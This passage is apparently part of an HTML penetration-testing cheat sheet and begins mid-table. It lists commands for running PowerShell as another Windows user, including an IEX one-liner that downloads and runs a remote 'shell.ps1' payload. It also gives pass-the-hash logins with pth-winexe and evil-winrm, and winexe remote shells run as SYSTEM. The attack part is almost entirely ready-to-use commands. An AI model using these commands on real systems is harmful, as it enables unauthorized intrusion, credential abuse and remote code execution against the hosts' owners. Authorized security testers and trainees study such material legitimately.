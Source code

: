                 <li>Will prompt for password.  Works when password has bad characters that are throwing off the command.</li>
            </ul>
        </td>
    </tr>
    <tr>
        <td>
            <li>Run powershell command as other user</li>
        </td>
        <td>
            <table>
                <tr>
                    <td>Method 1</td>
                    <td>Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://<ip address>/shell.ps1')" -Credential $cred</td>
                    </tr>
                    <tr>
                        <td>Method 2</td>
                        <td>Invoke-Command -ComputerName &lt;computer name&gt; -Credential $cred -ScriptBlock {whoami}</td>
                    </tr>
                    <tr>
                        <td>Method 3</td>
                        <td>
                            <li>Powershell-Suite/Runas.ps1</li>
                            <li>Invoke-RunAs -User &lt;username&gt; -Password &lt;password&gt; -LogonType &lt;0x1 or 0x2&gt; -Binary powershell.exe -Args &lt;powershell command&gt;</li>
                        </td>
                    </tr>
                </table>
            </td>
        </tr>
        <tr>
            <td>Pass the hash</td>
            <td>
                <li>pth-winexe - Pass the hash</li>
                <ul>
                    <li>Used to authenticate via the SMB protocol</li>
                    <li>Example: pth-winexe &ndash;U &lt;username&gt;%&lt;hash - Must be formatted LM_Hash:NT_Hash&gt; //&lt;ip address&gt; cmd</li>
                </ul>
            </td>
        </tr>
        <tr>
            <td>
                <li>winexe - password</li>
            </td>
            <td>
                <li>winexe -U &#039;&lt;username&gt;%&lt;password&gt;&#039; //&lt;ip address&gt; cmd.exe</li>
                <li>winexe -U &#039;&lt;username&gt;%&lt;password&gt;&#039; --system //&lt;ip address&gt; cmd.exe</li>
            </td>
        </tr>
        <tr>
            <td>evil-winrm</td>
            <td>
                <li>evil-winrm -i &lt;ip address&gt; -u &lt;user&gt; -p &lt;password&gt;</li>
                <li>evil-winrm -i &lt;ip address&gt; -u &lt;user&gt; -H &lt;NTLM&gt;</li>
            </td>
        </tr>
    </table>
